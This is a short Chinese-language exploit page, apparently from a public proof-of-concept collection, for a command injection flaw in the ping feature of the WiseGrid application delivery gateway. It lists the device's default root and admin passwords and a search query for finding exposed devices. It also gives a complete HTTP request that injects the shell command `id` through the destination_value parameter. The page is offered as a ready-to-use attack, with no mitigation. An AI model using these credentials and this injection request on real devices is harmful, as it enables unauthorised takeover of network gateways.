


# 信诺瑞得 WiseGrid慧敏应用交付网关 sysadmin_action.php 后台命令执行漏洞

## 漏洞描述

信诺瑞得 WiseGrid慧敏应用交付网关 sysadmin_action.php 对应的ping功能存在后台命令执行漏洞，通过默认口令可以获取系统权限

## 漏洞影响

<a-checkbox checked>信诺瑞得 WiseGrid慧敏应用交付网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="WiseGrid慧敏应用交付网关"</a-checkbox></br>

## 漏洞复现

登录页面



默认口令

```go
ssh：root/sinogrid
web: admin/sinogrid
POST /bin/sysadmin_action.php?action=getinfo&operation=ping&destination_value=`id`&ping_count=3&sar_value=3&netstat_value=tcp&interface= HTTP/1.1
Host: 
Cookie: PHPSESSID=4510o12llugti8k4f24971rdf2; funcs=NNN; appversion=WiseGrid-V4.2.2R_17322; hbstate=alone; username=admin; passwordmd5=ef9ffdf6c1e2fe91d4e14b30323fb771; role=superadmin; authmode=LOCAL; session_time=1639643323; lang=zh; declaration=1; needSyn=false
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96", "Google Chrome";v="96"
Accept: */*
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
X-Forwarded-For: 127.0.0.1
X-Originating-Ip: 127.0.0.1
X-Remote-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Connection: close
```


